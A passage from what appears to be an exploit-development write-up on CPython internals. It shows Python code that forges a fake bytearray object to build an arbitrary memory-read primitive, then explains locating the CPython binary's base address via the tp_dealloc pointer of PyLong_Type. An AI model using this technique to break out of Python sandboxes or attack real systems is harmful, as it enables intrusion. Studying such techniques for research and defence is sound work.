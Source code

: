 ```python
def _create_fake_byte_array(self, addr, size):
    byte_array_obj = flat(
        p64(10),            # refcount
        p64(id(bytearray)), # type obj
        p64(size),          # ob_size
        p64(size),          # ob_alloc
        p64(addr),          # ob_bytes
        p64(addr),          # ob_start
        p64(0x0),           # ob_exports
    )
    self.no_gc.append(byte_array_obj) # stop gc from freeing after we return
    self.freed_buffer[0] = id(byte_array_obj) + 32

def leak(self, addr, length):
    self._create_fake_byte_array(addr, length)
    return self.fake_objs[0][0:length]
```
### Finding the base of cpython
Now we have a leak primitive we can use it to find the base address of the binary. For this we need a function pointer into the binary. One object which hasn't obviously changed in any version of Python 3, and has a function pointer into the CPython binary, is the [`PyLong_Type`](https://github.com/python/cpython/blob/3.10/Objects/longobject.c#L5622) object. I chose to use the `tp_dealloc` member, at offset 24, which points to the `type_dealloc` function at runtime, but I could have just as easily chose another pointer in the same object, or in another object entirely.

{:refdef: style="text-align: center;"}